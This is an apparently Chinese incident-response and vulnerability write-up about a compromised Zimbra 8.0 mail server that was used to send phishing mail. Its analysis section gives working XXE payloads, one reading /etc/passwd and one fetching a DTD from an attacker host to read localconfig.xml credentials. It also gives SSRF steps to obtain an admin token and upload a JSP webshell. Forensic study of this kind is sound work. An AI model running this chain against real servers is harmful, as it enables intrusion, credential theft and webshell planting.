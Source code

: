 0x01 调查取证
=========

1、对涉事服务器的/var/log 日志分析，在邮件日志中发现，大量向后缀为gov.cn的邮箱发送钓鱼邮件。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a1890c45b8f46ee8c110d5b7d2cf801a47ffe0f7.png)

2、登录邮箱发现被退回邮件达3万多封，查看钓鱼邮件内容，发现存在钓鱼链接。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-955ec3444d80b9bc5912f61823ea9d47cb90bb39.png)

3、链接是http://XXXXXX/?i=i&amp;m=XXXX@mail.com， 其中参数m就是被钓鱼的邮箱账号，初步判断是通过钓鱼网站获取受害者的账号密码。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d3d65bfef9a34a3673cc1eb74a53957f95fa4308.png)

4.使用威胁情报平台搜索钓鱼网站站点的域名，表示该站点是恶意的。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6ac811b3b2546619ea05037f379c9c63c56c3b88.png)

5、查看邮箱的登录日志，发现大量的10.17.xxxxxxx登录登录错误日志，经过检查，发现错误日志是由于离职员工建立的发送邮件的日志，因为离职员工的邮箱账号被注销，所以大量的错误登录日志。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f82846d546cc588e07aac761e433236cb8faebee.png)

6、查看Zimbra版本，发现是8.0老版本， 该版本存在许多漏洞，比如XXE、SSRF，使用组合拳还可以RCE。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-46d0cc56dc1887d270ce47dc7398f65daa73338f.png)

7、在服务器的文件中找到了木马文件，一种常见的jsp木马。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1186e77a8031c6f23e8f8ea76371805228e68cfa.png)

0x02 漏洞分析
=========

XXE
---

1、直接跟进到漏洞接口/Autodiscover/Autodiscover.xml，POST发送一个空的xml，我们发现返回了No Email address is specified in the Request

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a64edaf2208afc61fa64ac5c1456840bedda91f8.png)

2、我们定位到这句话，发现这里存在XXE漏洞

```js

public void doPost(HttpServletRequest req, HttpServletResponse resp){

  reqBytes = ByteUtil.getContent(req.getInputStream(), req.getContentLength());
  Document doc = docBuilder.parse(new InputSource(new StringReader(content)));
  //获取Request标签中的内容 
  NodeList nList = doc.getElementsByTagName("Request");
    for (int i = 0; i < nList.getLength(); i++)
      {
        Node node = nList.item(i);
        if (node.getNodeType() == 1)
        {
          Element element = (Element)node;
          email = getTagValue("EMailAddress", element);
            //获取AcceptableResponseSchema的值赋值给responseSchema，这里就造成了XXE漏洞，没有对AcceptableResponseSchema的值进行任何过滤
          responseSchema = getTagValue("AcceptableResponseSchema", element);
        }
      }
    //
    if ((email == null) || (email.length() == 0))
    {
      log.warn("No Email address is specified in the Request, %s", new Object\[\] { content });
      sendError(resp, 400, "No Email address is specified in the Request");
      return;
    }
    if ((responseSchema != null) && (responseSchema.length() > 0)) {
         //当responseSchema不符合标准的时候，就会爆出错误，并将responseSchema回显，就造成了XXE漏洞
      if ((!responseSchema.equals("http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006")) && (!responseSchema.equals("http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a")))
      {
        log.warn("Requested response schema not available " + responseSchema);
        sendError(resp, 503, "Requested response schema not available " + responseSchema);
        return;
      }
}
```

3、<https://wiki.zimbra.com/wiki/Autodiscover> 官网给出的Autodiscover的写法，

```<Autodiscover
<Response xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006">
<Culture>en:en</Culture>
<User>
<DisplayName>admin</DisplayName>
<EMailAddress>admin@zimbra.io</EMailAddress>
</User>
<Action>
<Settings>
<Server>
<Type>MobileSync</Type>
<Url>https://zimbra86.zimbra.io:8443/Microsoft-Server-ActiveSync</Url>
<Name>https://zimbra86.zimbra.io:8443/Microsoft-Server-ActiveSync</Name>
</Server>
</Settings>
</Action>
</Response>
</Autodiscover>
```

我们可以写出如下payload，利用xxe漏洞

```<!DOCTYPE
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >\]>
 <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
      <EMailAddress>123</EMailAddress>
      <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
    </Request>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0150d296b2f02537e02f752812738b5f302040f1.png)

4、Zimbra为SOAP通信设置了一个全局管理员，用户名为“zimbra”，并随机生成密码。这些信息均存储在名为localconfig.xml的本地文件中。在某些条件下可以使用此类凭证，通过/service/extension/clientUploader/upload接口上传木马文件RCE。但是存在权限设置，通过管理端口才能发起请求，默认情况下端口是7071。

5、我们首先利用XXE读取localconfig.xml的本地文件，但是在 XML 中，字符 "&lt;" 和 "&amp;" 是非法的，所以读取一些带有特殊字符的文件时，就会报错“元素内容必须由格式正确的字符数据或标记组成”。在Java环境的那我们可以使用CDATA读取，来绕过字符限制。

术语 CDATA 指的是不应由 XML 解析器进行解析的文本数据（Unparsed Character Data）。某些文本，比如 JavaScript 代码，包含大量 "&lt;" 或 "&amp;" 字符。为了避免错误，可以将脚本代码定义为 CDATA。CDATA 部分中的所有内容都会被解析器忽略。CDATA 部分由 "&lt;!\[CDATA\[" 开始，由 "\]\]&gt;" 结束，使用参数实体进行调用CDATA。

```php
dtd文件

<?xml version="1.0" encoding="UTF-8"?>  <!ENTITY all "%start;%goodies;%end;">

payload

   
<!ENTITY % goodies SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % end "\]\]>">  
<!ENTITY % dtd SYSTEM "http://attackip/12.dtd"> 
%dtd; \]> 
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&all;</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6a162b17e185dfd32486eede6bf4720e7913f485.png)

SSRF
----

假如目标网站关闭了7071端口，我们还可以利用SSRF漏洞来访问。ProxyServlet.doProxy() 它能够将请求代理到另一个指定位置。这个 servlet 在普通的 webapp 上可用，因此可以从公共访问。但是存在额外的限制，代码中会检查代理目标是否与一组预定义的白名单匹配，也就是说，请求需要来自管理员才能去处理。但是针对管理员检查存在代码缺陷。第一步会检查请求是否来自端口 7071，但是它使用\[ServletRequest.getServerPort()\]([https://docs.oracle.com/javaee/6/api/javax/servlet/ServletRequest.html#getServerPort())获取Host头中](https://docs.oracle.com/javaee/6/api/javax/servlet/ServletRequest.html#getServerPort())%E8%8E%B7%E5%8F%96Host%E5%A4%B4%E4%B8%AD) ':' 之后的端口，然后只有从参数中获取 admin令牌才会进行检查，我们完全可以通过 cookie 发送令牌！简而言之，如果我们发送一个带有 'host: ip:7071' 主机头和 cookie 中的有效令牌的请求，我们可以将请求代理到任意目标。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-92b4a8596d0c72987a4fbb6ddc17d6e4ff591338.png)

简单来说，ProxyServle会把请求转发到指定的target，这里就会造成一个SSRF，可以利用SSRF访问7071管理端口。将Host修改为:7071为结尾的值，假装自己是从管理端口进入（ServletRequest.getServerPort()取Request中Host端口的问题），同时在Cookie中使用一个低权限的Token，即可进行SSRF。

1、首先获取一个低权限autotoken值，可以使用soap接口发送AuthRequest进行获取，填入zimbra\_admin\_name和zimbra\_ldap\_password。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-32a6a6c8392a25557409871f389b6f36a6e9bafc.png)

2、然后使用POST请求访问 /service/proxy?target=<https://127.0.0.1:7071/service/admin/soap>，  
***一定要注意是https，  
将Host修改为 ip:7071，  
将cookie 改为ZM\_ADMIN\_AUTH\_TOKEN=上步获取到的ZM\_AUTH\_TOKEN，  
将xmlns改为xmlns="urn:zimbraAdmin"，***  
就能够获取到真正的ZM\_ADMIN\_AUTH\_TOKEN

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-92579620c48a37eced0a02089df739d1dbc7bd47.png)

3、使用ZM\_ADMIN\_AUTH\_TOKEN，上传木马，poc这里就不放了，需要注意的是post请求7071端口r\\=requests.post("[https://ip:7071/service/extension/clientUploader/upload",files\\=file,headers\\=headers,verify\\=False](https://ip:7071/service/extension/clientUploader/upload))

然后连接木马的时候，需要导入ZM\_ADMIN\_AUTH\_TOKEN，木马地址为<https://ip:7071/>downloads/XXX.jsp

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6d37f96e2f485b827daae12a8ee81e875cc51607.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8f4e1e4811bfe2102bbf5a16c5b461fb69fbd5b7.png)

0x03 总结
=======

最终判定为攻击者利用Zimbra漏洞，XXE+SSRF进而getshell，获取服务器权限控制邮箱，然后发送钓鱼邮件。

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-89dba754399dc1196de4c55c7d27fd475f381dea.png)